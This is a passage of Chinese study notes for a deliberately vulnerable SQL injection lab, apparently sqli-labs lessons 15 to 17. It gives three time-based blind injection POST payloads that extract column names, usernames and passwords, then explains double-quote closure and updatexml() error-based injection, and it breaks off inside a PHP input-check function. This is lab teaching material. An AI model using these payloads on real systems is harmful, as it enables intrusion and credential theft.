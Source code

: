 `uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+&passwd=admin&submit=Submit`

`uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
***

# less 16(基于bool型/时间延迟的双引号POST型盲注)
***
## 原理 

没有报错信息的盲注过程。

## 步骤

本题只是改变了闭合方式为"),其余步骤仍旧见上
***

# less 17(基于错误的更新查询POST注入)
***
## 原理

updatexml()报错注入

该函数的正确用法

UPDATEXML(XML_doccument,XPath_string,new_value)

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 

第三个参数：new_value，String格式，替换查找到的符合条件的数据 

作用：改变文档中符合条件的节点的值

仍旧是因为输入参数的格式不符合其标准格式，所以才会报错

## 步骤

1.查看源码发现对uname做了check_input 处理，该函数的操作是

function check_input($value)

	{

	if(!empty($value))

		{
